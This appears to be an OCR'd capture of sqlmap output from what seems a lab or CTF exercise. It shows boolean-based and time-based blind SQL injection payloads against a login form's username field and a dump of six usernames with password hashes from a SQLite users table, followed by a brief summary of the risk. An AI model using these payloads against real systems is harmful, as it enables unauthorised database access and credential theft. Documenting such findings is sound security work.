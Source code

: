 
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=BEgX' OR NOT 7066=7066-- QUYG&password=UeIL

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=BEgX' OR 3936=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- sYkr&password=UeIL
---
do you want to exploit this SQL injection? [Y/n] Y
web application technology: Nginx 1.27.4
back-end DBMS: SQLite
banner: '3.40.1'
current user is DBA: True
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [y/N/q] N
Database: <current>
Table: users
[6 entries]
+----+------------------------------------------------------------------+----------+
| id | password                                                         | username |
+----+------------------------------------------------------------------+----------+
| 1  | 405a488dc022b9c55508c67468357982ba4d4ff639e70fbd1ac269851eb96bf9 | aeronis  |
| 2  | 937ba8286128953b9857d658f192f4a176c4307136aabe0ae81465baf9eeccb5 | durnik   |
| 3  | 008972f765a80b4da77026f227f70cd57454fb808333396ee232420483780ed2 | finnwise |
| 4  | 6f2bd81e6f2169a810c0a14a2e4d9b15aa05f2e017132a43b38ecf98ecf1d584 | kaelen   |
| 5  | 4daba22d4b9482d1449134418a2ca63dcc81fbe418a8971f62f8925541a103e4 | lioran   |
| 6  | 9e9f5a413726d993fc9cbd95ec49d256e0aa3f7d613fb83da7db708dd38ff2ac | thalnor  |
+----+------------------------------------------------------------------+----------+


[*] ending @ 03:42:05 /2025-03-14/



The site was vulnerable to sql injection attack.


Yes, the site was vulnerable to SQL injection.
The attacker was able to extract sensitive user data, including password hashes.
If an attacker cracks the password hashes, they could gain unauthorized access.
The DBA privileges further increase the risk, allowing full database control.







